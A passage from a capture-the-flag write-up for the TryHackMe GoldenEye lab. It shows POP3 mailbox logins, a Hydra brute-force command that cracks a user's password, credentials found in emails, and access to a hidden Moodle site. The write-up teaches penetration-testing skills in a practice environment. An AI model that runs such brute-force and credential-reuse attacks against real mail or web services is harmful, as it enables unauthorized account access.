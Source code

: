 ```bash
USER Boris
PASS secret1!
+OK Logged in.
list
+OK 3 messages:
```

### Reading Boris’ Emails

Boris has three messages. The second one is interesting:

```bash
From: natalya@ubuntu
Boris, I can break your codes!
```

This hints that Natalya’s password might also be crackable.

### Cracking Natalya’s Account

Running Hydra again against Natalya:

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f -s 55007 10.10.158.90 pop3
```

**Output:**

```bash
[55007][pop3] host: 10.10.158.90   login: natalya   password: bird
```

Logging into her mailbox shows two messages. The second one contains critical information:

```bash
Ok Natalya, I have a new student for you. 
User creds:  
username: xenia  
password: RCP90rulez!
```

It also mentions a hidden site: `severnaya-station.com/gnocertdir`.

By editing `/etc/hosts` and pointing the target’s IP to `severnaya-station.com`, we can access the page.

## Xenia’s Account

At `http://severnaya-station.com/gnocertdir`, we discover a Moodle instance. Logging in with **xenia : RCP90rulez!** works.

![Moodle](/ctf/tryhackme/golden-eye/moodle.png)

Once inside, browsing messages reveals another account: **doak**.

![Moodle Messages](/ctf/tryhackme/golden-eye/moodle-messages.png)
